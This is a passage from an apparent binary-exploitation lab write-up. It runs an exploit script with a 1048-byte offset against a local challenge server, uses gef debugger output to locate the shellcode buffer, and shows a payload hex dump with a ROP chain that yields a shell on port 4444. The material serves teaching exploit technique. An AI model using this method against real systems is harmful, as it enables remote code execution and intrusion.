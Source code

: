 Find address:
```
~/challenges/challenge16$ python3 exp-challenge16.py --offset 1048 --addr 0x414141 --keep --gdb "b *handleClient+129"
...
────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x15
$rbx   : 0x00000000400488  →   add BYTE PTR [rax], al
$rcx   : 0x0
$rdx   : 0x0
$rsp   : 0x007fffffffeb68  →  0x00000000446ef3  →  <__open_nocancel+99> pop rax
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x000000004b4600  →  "I've read 1128 bytes\nrt: 5001\n"
$rdi   : 0x000000004b1250  →  0x0000000000000000
$rip   : 0x00000000401d0e  →  <handleClient+129> ret
───────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x401d0d <handleClient+128> leave
 →   0x401d0e <handleClient+129> ret
   ↳    0x446ef3 <__open_nocancel+99> pop    rax
        0x446ef4 <__open_nocancel+100> ret
        0x446ef5 <__open_nocancel+101> nop    DWORD PTR [rax]
        0x446ef8 <__open_nocancel+104> lea    rax, [rsp+0x60]
───────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "challenge16", stopped 0x401d0e in handleClient (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────
gef➤  print &data
$1 = (char (*)[1024]) 0x7fffffffe750
```

The address of our buffer/shellcode is therefore `0x7fffffffe750`.


## Putting it all together

We use the command line `exp-challenge16.py --offset 1048 --addr 0x7fffffffe750`. 

If it succeeds, we will see something like `process 1484 is executing new program: /usr/bin/dash`
in the bottom screen. The top screen will show `[+] Opening connection to 127.0.0.1 on port 4444: Done`
and a shell prompt. You can select it by changing into that screen with `ctrl-b <up-arrow>`.

```
~/challenges/challenge16$ python3 exp-challenge16.py --offset 1048 --addr 0x7fffffffe750 
...
000003d0  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
000003e0  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
000003f0  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
00000400  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
00000410  41 41 41 41  41 41 41 41  f3 6e 44 00  00 00 00 00  │AAAA│AAAA│·nD·│····│
00000420  0a 00 00 00  00 00 00 00  8e 17 40 00  00 00 00 00  │····│····│··@·│····│
00000430  00 e0 ff ff  ff 7f 00 00  be 78 40 00  00 00 00 00  │····│····│·x@·│····│
00000440  00 10 00 00  00 00 00 00  ab 16 40 00  00 00 00 00  │····│····│··@·│····│
00000450  07 00 00 00  00 00 00 00  cc 50 41 00  00 00 00 00  │····│····│·PA·│····│
00000460  50 e7 ff ff  ff 7f 00 00                            │P···│····│
00000468
[+] Opening connection to 127.0.0.1 on port 4444: Done
[*] Switching to interactive mode
$
──────────────────────────────────────────────────────────────────────────────────────────

[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xfffffffffffffe00
$rbx   : 0x00000000400488  →   add BYTE PTR [rax], al
$rcx   : 0x000000004462de  →  0x5a77fffff0003d48 ("H="?)
$rdx   : 0x800
```